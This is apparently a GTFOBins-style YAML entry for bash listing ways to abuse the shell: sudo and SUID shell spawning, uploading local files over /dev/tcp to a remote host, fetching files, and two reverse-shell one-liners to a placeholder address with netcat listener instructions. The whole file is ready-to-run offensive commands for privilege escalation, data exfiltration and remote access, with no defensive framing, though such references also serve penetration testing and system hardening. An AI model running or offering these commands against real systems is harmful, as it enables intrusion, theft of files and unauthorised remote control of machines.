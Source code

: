 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file from the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 8000 < "file_to_send"` to send the file from the other end.
      code: |-
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
    - code: |
        RHOST=10.0.0.1
        RPORT=8000
        exec 5<&-;exec 5<>/dev/tcp/$RHOST/$RPORT; while read line 0<&5; do $line 2>&5 >&5; done
---
```

